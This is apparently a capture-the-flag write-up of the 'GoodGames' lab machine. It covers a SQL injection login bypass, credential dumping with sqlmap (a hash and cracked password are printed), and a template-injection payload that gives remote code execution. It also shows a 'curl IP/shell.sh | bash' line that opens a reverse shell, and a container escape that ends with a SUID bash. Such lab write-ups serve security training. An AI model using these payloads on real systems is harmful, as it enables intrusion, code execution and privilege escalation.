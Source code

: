 ```yaml
---
description: >-
  Basic web exploits of SQL Injection and SSTI, followed by a Docker Container
  Escape.
---
```


# GoodGames

## Gaining Access

As usual we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (63) (2).png" alt=""><figcaption></figcaption></figure>

Take note of the `goodgames.htb` domain name.&#x20;

### SQL Injection

The website is about some video games stuff:

<figure><img src="../../../.gitbook/assets/image (23) (2) (2).png" alt=""><figcaption></figcaption></figure>

In the corner of the page, there's a login available.

<figure><img src="../../../.gitbook/assets/image (41) (2) (1).png" alt=""><figcaption></figcaption></figure>

This login is bypassable with the `' OR 1=1 -- -` input for the `email` parameter. When we login, we would be redirected to `internal-administration.goodgames.htb`.  This page has another login where SQL Injection does not work.

<figure><img src="../../../.gitbook/assets/image (1) (1) (7).png" alt=""><figcaption></figcaption></figure>

Initially, I assumed that we needed to find credentials elsewhere and looked around the website. Understanding that there was an SQL Injection weakness earlier, we probably could dump out the credentials.

I used `sqlmap` to automatically dump ot out, and got `admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec` as the output. This hash could be cracked to give the password of `superadministrator`.&#x20;

### SSTI in Username

Once logged in, the page redirected us to a dashboard where we could update our user profile.

<figure><img src="../../../.gitbook/assets/image (35) (3) (1).png" alt=""><figcaption></figcaption></figure>

The profile updater takes the user input for full name and outputs it on the screen. I tested this with a `{{7*7}}` payload as this was running on Werkzeug, which was a Python based server (detected in Nmap scan earlier).&#x20;

I was pleased to see that it worked:

<figure><img src="../../../.gitbook/assets/image (13) (3) (1).png" alt=""><figcaption></figcaption></figure>

With that, I proceeded to dump out the config of this server using `{{config.items()}}`.&#x20;

<figure><img src="../../../.gitbook/assets/image (44) (2) (1).png" alt=""><figcaption></figcaption></figure>

The SSTI also granted us RCE on the server with this payload:

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

<figure><img src="../../../.gitbook/assets/image (53) (2) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can replace the `id` command with a `curl IP/shell.sh | bash` payload to gain a reverse shell as root on this Docker Container.

<figure><img src="../../../.gitbook/assets/image (22) (5) (1).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

Now that we are in the container, we can scan around the network for other hosts that are alive. This can be done using this one-liner:

```bash
for i in {1..254}; do ping -c 1 172.19.0.$i | grep 'from; done 
```

<figure><img src="../../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

172.19.0.1, but we have no users and cannot do much with this for now. We can check the `/home` directory to find the `augustus` user. Additionally, I used `mount` to check all the directories mounted into the container from the host.

<figure><img src="../../../.gitbook/assets/image (51) (2) (1).png" alt=""><figcaption></figcaption></figure>

Since there was no `augustus` user within the `/etc/passwd` file on the container, this must be from the host. I just tried to SSH into 172.19.0.1, and it worked.

<figure><img src="../../../.gitbook/assets/image (52) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Earlier, we determined using `mount` that a possible mount point was the `/home/augustus` directory. Files that were edited while I was in the container were reflected within the host as well.&#x20;

When copying files into that directory, because I was a root user in the container, the owner of the files in the host was also root. So, I copied over `/bin/bash` and did `chmod +s bash` within the user directory.

This created a bash file with the SUID bit set within the host:

<figure><img src="../../../.gitbook/assets/image (31) (1) (3).png" alt=""><figcaption></figcaption></figure>

Getting root is trivial:

<figure><img src="../../../.gitbook/assets/image (59) (2).png" alt=""><figcaption></figcaption></figure>
